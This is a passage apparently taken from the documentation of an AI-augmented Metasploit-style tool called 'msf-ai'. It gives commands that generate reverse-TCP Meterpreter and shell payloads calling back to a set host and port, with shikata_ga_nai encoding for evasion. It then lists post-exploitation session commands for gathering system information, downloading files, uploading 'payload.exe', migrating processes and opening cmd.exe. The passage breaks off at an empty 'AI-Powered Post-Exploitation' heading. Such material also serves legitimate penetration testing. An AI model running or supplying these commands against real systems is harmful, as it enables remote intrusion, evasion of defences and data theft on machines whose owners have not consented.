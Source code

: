 #### Payload Generation
```bash
# Generate Windows Meterpreter
msf-ai> payload generate --type windows/meterpreter/reverse_tcp --lhost 192.168.1.50 --lport 4444

# Generate with encoding
msf-ai> payload generate --type windows/shell/reverse_tcp --encoder x86/shikata_ga_nai --iterations 3

# Generate for specific architecture
msf-ai> payload generate --type linux/x64/meterpreter/reverse_tcp --arch x64
```

## Post-Exploitation

### Session Management

#### Session Operations
```bash
# List active sessions
msf-ai> sessions --list

# Interact with session
msf-ai> sessions --interact 1

# Session information
msf-ai> sessions --info 1

# Kill session
msf-ai> sessions --kill 1
```

#### Session Commands
```bash
# System information
meterpreter> sysinfo
meterpreter> getuid

# File system operations
meterpreter> ls
meterpreter> download file.txt
meterpreter> upload payload.exe

# Process operations
meterpreter> ps
meterpreter> migrate 1234
meterpreter> execute -f cmd.exe -i
```

### AI-Powered Post-Exploitation
